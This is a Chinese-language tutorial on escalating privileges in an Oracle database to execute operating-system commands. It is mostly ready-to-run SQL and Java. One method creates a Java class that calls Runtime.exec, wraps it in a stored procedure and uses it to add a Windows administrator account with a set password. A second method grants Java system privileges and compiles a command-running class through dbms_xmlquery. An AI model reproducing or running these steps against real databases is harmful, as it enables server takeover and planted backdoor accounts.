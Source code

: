 当用户拥有创建存储过程权限时，则可以创建一个java class，然后用创建一个存储过程来进行调用 

**提权步骤**

1、查看用户是否具有create procedure权限

```sql
SQL> select * form session_privs;
```

2、 创建一个java class然后用procedure包装它进行调用 

```sql
create or replace and resolve java source named CMD as
    import java.lang.*;
    import java.io.*;
    public class CMD
    {
       public static void execmd(String command) throws IOException 
		{
               Runtime.getRuntime().exec(command); 
       	} 
   	}
  	/
```

3、 创建存储过程 

```sql
create or replace procedure CMDPROC(command in varchar) as language java 
    name 'CMD.execmd(java.lang.String)';
/
```

4、执行命令（添加一个系统管理员账户）

```sql
SQL> EXEC CMDPROC('net user winuser ha@Pass123 /add');
```

### 二、利用java权限提权

1、先使用dba权限赋予用户java运行权限

```sql
SQL> grant JAVASYSPRIV to system;
```

2、创建jar包

```sql
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
```

 DUAL是Oracle与数据字典一起自动创建的一个表，它只有一列 
